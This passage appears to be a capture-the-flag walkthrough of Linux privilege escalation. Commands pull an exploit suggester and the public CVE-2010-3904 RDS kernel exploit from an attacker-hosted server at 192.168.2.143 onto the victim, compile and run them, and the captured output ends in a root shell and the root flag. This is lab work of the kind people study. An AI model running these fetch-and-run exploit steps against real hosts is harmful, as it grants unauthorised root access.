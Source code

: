 After googling a bit to search how find exploit, i found this [post](https://www.blackmoreops.com/2017/01/17/find-linux-exploits-by-kernel-version/).  Download Linux\_Exploit\_Suggester.pl on your machine: 

    $ wget https://raw.githubusercontent.com/InteliSecureLabs/Linux_Exploit_Suggester/master/Linux_Exploit_Suggester.pl -O les.pl
    $ python2.7 -m SimpleHTTPServer 4444

On victim: 

    $ cd /tmp
    $ wget -cv 192.168.2.143:4444/les.pl
    $ perl les.pl

```txt
[+] rds
   CVE-2010-3904
   Source: http://www.exploit-db.com/exploits/15285/
```
If you have install the package `exploitdb` so it's easy:

    $ cp /usr/share/exploitdb/exploits/linux/local/15285.c ./

On victim:

    $ wget 192.168.2.143:4444/15285.c
    $ gcc 15285.c
    $ ./a.out

```sh
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xffffffff81ce8df0
 [+] Resolved default_security_ops to 0xffffffff81a523e0
 [+] Resolved cap_ptrace_traceme to 0xffffffff8125db60
 [+] Resolved commit_creds to 0xffffffff810852b0
 [+] Resolved prepare_kernel_cred to 0xffffffff81085780
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
```
    
    # cat /root/root.txt
    8f420533b79076cc99e9f95a1a4e5568

WTF, no flag in ascii ??? :p
